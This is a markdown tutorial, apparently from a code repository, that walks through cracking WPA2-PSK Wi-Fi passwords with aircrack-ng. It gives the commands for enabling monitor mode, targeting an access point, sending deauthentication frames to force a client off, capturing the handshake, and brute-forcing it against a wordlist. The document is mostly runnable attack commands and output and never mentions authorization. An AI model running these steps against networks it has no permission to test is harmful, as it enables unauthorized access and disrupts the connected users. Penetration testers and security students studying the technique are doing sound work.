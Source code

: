 # Cracking WPA2-PSK Passwords Using Aircrack-Ng (Brute Force) 

1. Put Wi-Fi Adapter in Monitor Mode with Airmon-Ng - It allows us to see all of the wireless traffic that passes by us in the air. 
```bash
    [root] airmon-ng start wlan0
    PHY	Interface	Driver		Chipset

    phy0	wlp9s0f0	rt2800pci	Ralink corp. RT3290 Wireless 802.11n 1T/1R PCIe

		(mac80211 monitor mode vif enabled for [phy0]wlp9s0f0 on [phy0]wlp9s0f0mon)
		(mac80211 station mode vif disabled for [phy0]wlp9s0f0)

```

2. Note that airmon-ng has renamed your wlan0 adapter to wlp9s0f0mon.
```bash
    [root] iwconfig
    wlp9s0f0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
          
enp8s0    no wireless extensions.

lo        no wireless extensions.

```

3. Capture Traffic with Airodump-Ng
    - It grabs all the traffic that your wireless adapter can see and displays critical information about it, including the BSSID (the MAC address of the AP), power, number of beacon frames, number of data frames, channel, speed, encryption (if any), and finally, the ESSID (what most of us refer to as the SSID). 
    - Note all of the visible APs are listed in the upper part of the screen and the clients are listed in the lower part of the screen
```bash
    [root] airodump-ng wlp9s0f0mon
    
```

4. Focus Airodump-Ng on One AP on One Channel
    - Our next step is to focus our efforts on one AP, on one channel, and capture critical data from it. We need the BSSID and channel to do this. Let's open another terminal and type:
```bash
    [root] airodump-ng --bssid 08:86:30:74:22:76 -c 6 --write WPAcrack wlp9s0f0mon
```
- `08:86:30:74:22:76` is the `BSSID` of the AP
- `-c 6` is the channel the AP is operating on
- WPAcrack is the file you want to write to
- wlp9s0f0mon is the monitoring wireless adapter*

5. Aireplay-Ng Deauth
    - In order to capture the encrypted password, we need to have the client authenticate against the AP. 
    - If they're already authenticated, we can de-authenticate them (kick them off) and their system will automatically re-authenticate, whereby we can grab their encrypted password in the process. Let's open another terminal and type:
```bash
    [root] aireplay-ng --deauth 100 -a 08:86:30:74:22:76 -c 54:DC:1D:4C:39:96 wlp9s0f0mon
```    
- `100` is the number of de-authenticate frames you want to send
- `08:86:30:74:22:76` is the BSSID of the AP
- `54:DC:1D:4C:39:96` is the BSSID of the Client
- `wlp9s0f0mon` is the monitoring wireless adapter

6. Capture the Handshake
    - In the previous step, we bounced the user off their own AP, and now when they re-authenticate, airodump-ng will attempt to grab their password in the new 4-way handshake. 
    - Let's go back to our airodump-ng terminal and check to see whether or not we've been successful.
    - "WPA handshake." on top right conor.

7. Let's Aircrack-Ng That Password!    
    -  that we have the encrypted password in our file WPAcrack, we can run that file against aircrack-ng using a password file of our choice. 
    - Remember that this type of attack is only as good as your password file. 
```bash
    [root] aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de
```    

## References
- [Nullbyte - Cracking WPA2-PSK Passwords Using Aircrack-Ng](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/)